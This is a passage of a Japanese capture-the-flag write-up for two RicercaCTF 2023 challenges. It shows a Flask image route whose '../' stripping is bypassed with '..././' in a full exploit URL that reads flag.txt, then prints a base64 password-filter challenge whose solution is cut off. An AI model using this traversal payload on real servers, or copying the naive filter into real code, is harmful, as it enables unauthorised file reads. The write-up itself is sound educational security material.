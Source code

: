 
また、Dockerfileを確認すると、フラグはホームディレクトリにあるようだ。
```dockerfile
...
WORKDIR /home/ctf
ADD ./app.py    ./
ADD ./images    ./images
ADD ./templates ./templates
ADD ./uwsgi.ini ./
ADD ./flag.txt  ./
...
```

### 解法
`serve_image`関数を確認すると、`../`が置換されている。 しかし、`..././`のようなパスを置換したあとは`../`という解釈になる。
```python
@app.route('/img')
def serve_image():
    filename = flask.request.args.get("f", "").replace("../", "")
    path = f'images/{filename}'
    if not os.path.isfile(path):
        return flask.abort(404)
    return flask.send_file(path)
```

したがって、以下のURLにアクセスすればフラグが得られる。
```none
http://cat-cafe.2023.ricercactf.com:8000/img?f=..././flag.txt
```

`"..././".relpace("../", "")`は`../`になるから、パストラバーサルのエスケープとして
意味がないという記憶があったので、すぐ解けた。

## [misc 200] gatekeeper
> base64で作ったフィルタを突破してください  
> authored by Arata  

### 問題概要
以下のようなコードがあり、`open sesame!`をbase64エンコードした`b3BlbiBzZXNhbWUh`を入力に与えて、
`flag.txt`を読みたいが、それはフィルタリングされており、バイパスする必要がある。
```python
import subprocess

def base64_decode(s: str) -> bytes:
  proc = subprocess.run(['base64', '-d'], input=s.encode(), capture_output=True)
  if proc.returncode != 0:
    return ''
  return proc.stdout

if __name__ == '__main__':
  password = input('password: ')

  if password.startswith('b3BlbiBzZXNhbWUh'):
    exit(':(')

  if base64_decode(password) == b'open sesame!':
    print(open('/flag.txt', 'r').read())
  else:
    print('Wrong')
```


[^1]: 読み方：すしふぁーすと